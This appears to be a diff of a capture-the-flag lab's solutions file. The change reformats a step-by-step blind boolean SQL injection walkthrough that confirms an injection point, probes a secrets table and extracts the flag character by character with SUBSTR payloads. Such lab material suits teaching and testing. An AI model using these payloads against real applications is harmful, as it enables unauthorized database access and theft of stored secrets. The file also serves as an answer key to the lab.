

Before and after one commit to Cy5ec-rhythm/hackrange, a Markdown page: SOLUTIONS.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Refine SQL injection payload examples in SOLUTIONS.md
Updated SQL injection payload examples for clarity and correctness.

````diff
--- a/SOLUTIONS.md
+++ b/SOLUTIONS.md
@@ -116,40 +116,39 @@ the data you want, and read the answer from whether the page says
 **Payloads, in order:**
 
 1. Confirm a valid user exists:
-
+```
 ?username=alice
-
-
-2. Confirm the injection point — inject a true condition:
-
+```
+3. Confirm the injection point — inject a true condition:
+```
 ?username=alice' AND '1'='1'--
-
+```
    Should return "exists" (true condition, query still valid).
 
 3. Inject a false condition to confirm boolean control:
-
+```
 ?username=alice' AND '1'='2'--
-
+```
    Should return "not found" (false condition overrides the match).
 
 4. Confirm you can reach the secrets table:
-
+```
 ?username=alice' AND (SELECT COUNT(*) FROM secrets)>0 AND '1'='1'--
-
+```
    Returns "exists" if the secrets table has at least one row.
 
 5. Extract the flag length first (helps scope your loop):
-
+```
 ?username=alice' AND (SELECT LENGTH(secret_value) FROM secrets)=34 AND '1'='1'--
-
+```
    Increment the number until it returns "exists" — that's the flag length.
 
 6. Extract flag character by character:
-
+```
 ?username=alice' AND SUBSTR((SELECT secret_value FROM secrets),1,1)='F' AND '1'='1'--
 ?username=alice' AND SUBSTR((SELECT secret_value FROM secrets),2,1)='L' AND '1'='1'--
 ?username=alice' AND SUBSTR((SELECT secret_value FROM secrets),3,1)='A' AND '1'='1'--
-
+```
    Keep incrementing the position index until you've extracted all characters.
 
 7. Automate it with a Python script (recommended — 34 characters
````
